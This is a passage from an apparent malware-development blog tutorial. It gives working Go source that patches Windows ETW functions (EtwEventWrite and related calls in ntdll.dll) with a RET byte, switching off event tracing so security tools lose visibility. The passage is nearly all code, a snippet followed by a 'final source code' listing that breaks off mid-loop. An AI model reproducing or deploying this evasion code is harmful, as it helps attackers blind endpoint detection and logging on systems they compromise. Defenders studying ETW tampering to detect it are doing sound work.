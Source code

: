 Now we define our patch which will be written to every single function address.

```go
patch := []byte{0xC3}
```

And finally we iterate over the functions and sleep so the process doesn't exit.

```go
fmt.Println("[*] Patching functions...")
for _, addr := range addresses {
  // Write patch bytes to function address
  WriteProcessMemory.Call(
    uintptr(0xffffffffffffffff),
    uintptr(addr),
    uintptr(unsafe.Pointer(&patch[0])),
    uintptr(len(patch)),
    0,
  )
}

fmt.Println("[*] Sleeping...")
time.Sleep(10000 * time.Second)
```

To recap, this is the final source code:

```go
package main

/*

Author: D3Ext
Blog post: https://d3ext.github.io/posts/malware-dev-12/

*/

import (
  "fmt"
  "time"
  "unsafe"
  "syscall"
)

func main(){
  fmt.Println("[*] Loading ntdll.dll and ETW functions...")
  ntdll := syscall.NewLazyDLL("ntdll.dll")
  WriteProcessMemory := syscall.NewLazyDLL("kernel32.dll").NewProc("WriteProcessMemory")

  EtwEventWrite := ntdll.NewProc("EtwEventWrite")
  EtwEventWriteEx := ntdll.NewProc("EtwEventWriteEx")
  EtwEventWriteFull := ntdll.NewProc("EtwEventWriteFull")
  EtwEventWriteString := ntdll.NewProc("EtwEventWriteString")
  EtwEventWriteTransfer := ntdll.NewProc("EtwEventWriteTransfer")

  addresses := []uintptr{
    EtwEventWriteFull.Addr(),
    EtwEventWrite.Addr(),
    EtwEventWriteEx.Addr(),
    EtwEventWriteString.Addr(),
    EtwEventWriteTransfer.Addr(),
  }

  patch := []byte{0xC3}

  fmt.Println("[*] Patching functions...")
  for _, addr := range addresses {
```